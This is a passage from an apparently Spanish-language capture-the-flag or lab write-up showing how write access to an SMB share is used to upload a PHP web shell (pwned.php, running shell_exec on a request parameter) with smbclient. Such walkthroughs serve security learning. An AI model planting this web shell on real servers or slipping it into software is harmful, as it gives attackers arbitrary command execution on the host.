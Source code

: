 ![](img/Pasted%20image%2020241215184406.png#center)


Como el usuario `bob`, tiene permisos de escritura, podemos subir alguna **web shell**, algún archivo malicioso y poder ejecutar comandos.

---


## **Explotación**

### Creamos una WEB SHELL
Con la herramienta `nano`, creamos una fichero llamado **pwned.php** que va ser la `web shell` que subiremos al `smb` y el código es:
```
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "<pre>";
?>
```

![](img/Pasted%20image%2020241215193815.png#center)

**¿Qué hace este código?**
Este fragmento de código PHP es una bomba de tiempo en tu sitio web. Básicamente, le permite a cualquier persona que visite tu sitio web ejecutar cualquier comando que quiera en tu servidor.


---

### Subimos archivo
Para subir el archivo es mas fácil usar la herramienta `smbclient`.
```
smbclient //{ IP Victima }/{ donde guardar el archivo } -U usuario%contraseña -c "comando a ejecutar"
```
